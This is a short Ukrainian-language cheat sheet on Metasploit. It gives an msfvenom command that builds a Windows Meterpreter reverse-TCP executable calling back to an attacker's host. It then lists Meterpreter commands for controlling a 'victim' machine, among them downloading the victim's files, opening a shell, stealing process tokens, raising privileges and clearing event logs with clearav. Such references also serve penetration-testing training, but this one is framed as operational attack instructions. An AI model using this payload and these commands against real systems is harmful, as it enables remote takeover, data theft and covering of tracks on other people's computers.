 ## Створення payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -a x64 -o /home/kali/payload.exe

## Основні команди Meterpreter:

**?** — меню допомоги  
**background** — переносить поточний сеанс в фоновий режим.  
**bgkill** — завершує фоновий скрипт meterpreter.  
**bglist** — відображає список всіх запущених фонових скриптів.  
**bgrun** — запускає скрипт як фоновий потік.  
**channel**  — відображає активні канали.  
**close** — закриває канал.  
**exit** — завершує севнс роботи з meterpreter.  
**help** — меню довідки.  
**interact** — взаємодіє з каналом.  
**irb** — перейти в режим сценарію Ruby.  
**migrate** — переносить активний процес на указаний PID.  
**quit** — завершує сеанс meterpreter.  
**read** — читає дані з каналу.  
**run** — виконує створений після нього скрипт meterpreter.  
**use** — завантажує розширення meterpreter.  
**write** — записує дані в канал.  

## Команди файлової системи

**cat** — читання і виведення вмісту файлу.  
**cd** — перейти в папку.  
**del** — видалити файл.  
**download** — завантажити файл з системи на свій ПК.  
**edit** — редагувати файл за допомогою vim.  
**getlwd** — показати локальний каталог.  
**getwd** — показати робочий каталог.  
**lcd** — змінити локальний каталог.  
**lpwd** — відобразити шлях локальної директорії.  
**ls** — список файлів в поточному каталозі.  
**mkdir** — створити каталог.  
**pwd** — відобразити шлях кореневого каталогу до до поточного робочого каталогу.  
**rm** — видалити файл.  
**rmdir** — видалити каталог в жертви.  
**upload** — завантажити файл зі своєї системи на на поточну машину.  

## Мережевы команди Meterpreter:

**clearav** — очищуэ журнал подый на комп'ютері жертви.  
**execute** — виконує команду.  
**getpid** — отримує ідентифікатор поточного процесу (PID).  
**getprivs** — отримує максимально можливі привілегії.  
**getuid** — отримати користувача від якого запущений сервер.  
**kill** — завершити процес, позначений PID.  
**ps** — список запущених процесів.  
**reboot** — перезавантажує комп'ютер жертви.  
**reg** — взаємодіяти з реєстром жертви.  
**rev2self** — викликає RevertToSelf () на машині жертви.  
**shell** — відкриває командний рядок на машині жертви.  
**shutdown** — виключає комп'ютер жертви.  
**steal_token** — намгається викрасти токен вказаного (PID) процесу.  
**sysinfo** — отримує детальну інформацію про комп'ютер жертви, таку ​як ОС і ім'я комп'ютера.  

